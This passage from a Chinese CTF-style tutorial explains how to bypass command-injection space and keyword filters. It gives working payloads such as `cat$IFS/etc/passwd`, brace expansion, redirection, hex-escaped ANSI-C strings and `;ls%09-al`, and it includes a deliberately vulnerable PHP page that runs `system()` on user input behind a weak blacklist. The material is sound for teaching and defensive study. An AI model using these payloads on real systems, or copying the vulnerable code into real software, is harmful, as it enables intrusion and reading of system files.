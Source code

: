 - `$IFS`、`${IFS}`、`$IFS$9`

环境变量 IFS（**I**nternal **F**ield **S**eparator，内部字段分隔符），默认情况下由`空格`、`制表符`和`换行符`组成，可通过`set`命令查看。

`${IFS}`使用`{}`可以避免出现变量名与其他字符连用的情况。`$9`是当前命令的第 9 个参数，通常为空。习惯上，使用`$IFS$9`可避免避免变量名连用，也不出现花括号。

```bash
cat$IFS/etc/passwd
cat${IFS}flag
cat$IFS$9flag
```

- [大括号扩展](https://wangdoc.com/bash/expansion#%E5%A4%A7%E6%8B%AC%E5%8F%B7%E6%89%A9%E5%B1%95)`{...}`

```bash
{cat,/etc/passwd}
```

- 重定向运算符

```bash
# 输入重定向
cat</etc/passwd

# 读写
cat<>/etc/passwd
```

- `$'string'`特殊类型的单引号（ANSI-C Quoting）

`$''`属于[特殊的单引号](https://www.gnu.org/software/bash/manual/bash.html#ANSI_002dC-Quoting)，支持转义字符。

```bash
# 十六进制
X=$'cat\x20/etc/passwd';$X

# 换行符
x=$'cat\n/etc/passwd';$x
x=$'cat\t/etc/passwd';$x
```

- 使用制表符

```bash
;ls%09-al%09/home
```

- 变量截取

### 绕过黑名单

```php
<?php
highlight_file(__FILE__);

// 获取用户输入的命令
$cmd = isset($_GET['cmd']) ? $_GET['cmd'] : die("No command provided");

// 检查用户输入的命令是否包含黑名单中的命令
$blacklist = ['ls', 'cat', 'flag'];
foreach ($blacklist as $value) {
    if (stripos($cmd, $value) !== false) {
        die("HACKER!");
    }
}

// 输出用户输入的命令（转义以防止 XSS）
echo "CMD: " . htmlspecialchars($cmd) . "<br>";

// 执行命令
system($cmd);
```